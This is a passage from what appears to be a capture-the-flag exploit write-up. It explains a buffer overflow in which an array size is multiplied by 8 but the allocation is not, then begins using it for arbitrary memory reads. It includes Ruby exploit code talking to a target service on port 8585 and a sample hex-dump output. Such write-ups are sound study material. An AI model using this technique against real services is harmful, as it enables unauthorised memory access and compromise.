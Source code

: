 It's multiplying the array size by 8, but not the malloc'd size! That means it'll always try to copy 8x too much data into the array!

Now, what can we do with this?

<h3>Reading and writing arbitrary memory</h3>

It's important to remember the structure of array-containing messages to understand how to read memory. In particular, this structure:

<ul>
  <li>(uint32) unknown</li>
  <li>(uint32) message_type</li>
  <li>(uint32) message-specific payload (pointer)</li>
  <li>(uint32) message-specific payload (length)</li>
  <li>...</li>
</ul>

Let's say we allocate an array of ten doubles using the following code (you can find these functions defined in my exploit code on Github):

<pre>
<span class="lnr"> 1 </span>s = <span class="Type">TCPSocket</span>.new(<span class="Special">&quot;</span><span class="Constant">192.168.1.119</span><span class="Special">&quot;</span>, <span class="Constant">8585</span>)
<span class="lnr"> 2 </span>
<span class="lnr"> 3 </span>receive_code(s, <span class="Constant">0x00001000</span>, <span class="Special">&quot;</span><span class="Constant">init</span><span class="Special">&quot;</span>)
<span class="lnr"> 4 </span>
<span class="lnr"> 5 </span>login(s)
<span class="lnr"> 6 </span>
<span class="lnr"> 7 </span>store(s, <span class="Type">VARDATA_TYPE_DOUBLE_ARRAY</span>, [<span class="Constant">0x4141414141414141</span>] * <span class="Constant">10</span>)
<span class="lnr"> 8 </span>result = get(s, <span class="Constant">0</span>)
<span class="lnr"> 9 </span>
<span class="lnr">10 </span><span class="Type">Hex</span>.print(result)
</pre>

Everything will be normal and it'll output:

<pre>
<span class="Constant">0000</span>  <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span>   <span class="Type">AAAAAAAAAAAAAAAA</span>
<span class="Constant">0010</span>  <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span>   <span class="Type">AAAAAAAAAAAAAAAA</span>
<span class="Constant">0020</span>  <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span>   <span class="Type">AAAAAAAAAAAAAAAA</span>